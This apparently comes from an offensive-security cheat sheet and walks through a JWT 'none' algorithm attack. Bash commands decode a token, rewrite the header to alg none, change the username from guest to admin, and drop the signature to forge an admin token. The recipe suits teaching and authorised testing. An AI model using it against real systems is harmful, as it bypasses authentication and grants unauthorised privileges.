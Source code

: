 # JWT

## JWT None algorithm exploitation

```bash
# Decode JWT Header and Payload
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
echo -n "eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNzEwNDIwMzgzfQ" | base64 -d

# Change header alg to none
echo -n '{"typ":"JWT","alg":"none"}' | base64

# Change payload username
echo -n '{"username":"admin","exp":1710420383}' | base64

# Join header and payload with dots (remove signature)
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzEwNDIwMzgzfQ==.
```

[JWT Decode](https://jwt.io)